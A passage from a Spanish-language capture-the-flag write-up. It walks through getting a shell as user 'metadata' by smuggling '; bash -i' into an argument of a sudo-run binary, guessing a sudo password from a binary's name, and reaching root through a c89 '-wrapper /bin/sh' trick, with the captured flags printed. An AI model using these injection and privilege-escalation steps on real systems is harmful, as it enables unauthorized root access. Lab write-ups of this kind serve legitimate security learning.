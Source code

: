 Vemos que funciona por lo que obtendremos una shell del usuario `metadata` de la siguiente forma.

```shell
sudo -u metadata /home/codebad/code '-la; bash -i'
```

Y si ahora hacemos `whoami`.

```shell
metadata
```

Veremos que somos el usuario `metadata` por lo que leeremos la flag.

> user.txt

```
f5d22841e337cab01739e59cce3275e9
```

## Escalate Privileges

Si hacemos `sudo -l` veremos que necesitaremos una contraseña, por lo que buscaremos a ver donde puede haber alguna pista.

Si vamos a `/usr/local/bin` veremos un binario llamado `metadatosmalos` con un contenido que no importa mucho y los permisos normales, por lo que probaremos a meter como contraseña el nombre del binario.

```shell
sudo -l
```

Metemos como contraseña `metadatosmalos` y veremos que funciona.

```
Matching Defaults entries for metadata on a6c7dc66c5c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User metadata may run the following commands on a6c7dc66c5c1:
    (ALL : ALL) /usr/bin/c89
```

Vemos que podemos ejecutar como `root` el binario `c89` por lo que haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/c89/#sudo

```shell
sudo c89 -wrapper /bin/sh,-s .
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
d6c4a33bec66ea2948f09a0db32335de
```
